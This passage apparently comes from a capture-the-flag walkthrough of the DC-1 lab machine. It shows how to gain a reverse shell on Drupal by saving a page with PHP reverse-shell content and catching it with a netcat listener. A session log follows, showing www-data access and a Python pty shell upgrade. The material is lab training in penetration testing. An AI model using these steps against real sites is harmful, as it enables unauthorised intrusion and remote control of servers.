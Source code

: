 Back to the admin panel, click on "Content" and click on "Add content" > Basic page.

Give it a title (e.g. revshell), put the content of a PHP reverse shell in the body, select PHP code from the "text format" dropdown and click save.

![drupal-basic-page-revshell.png](files/drupal-basic-page-revshell.png)

Now, start a listener on your Kali machine (`rlwrap nc -nlvp 4444`) and from the Drupal web application, click on the "Preview" button at the bottom of the page.

You should now have a reverse shell:

~~~
kali@kali:/data/DC1/files$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [172.16.222.128] from (UNKNOWN) [172.16.222.156] 44408
Linux DC-1 3.2.0-6-486 #1 Debian 3.2.102-1 i686 GNU/Linux
 01:24:29 up  1:30,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ which python3
$ which python
/usr/bin/python
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@DC-1:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~
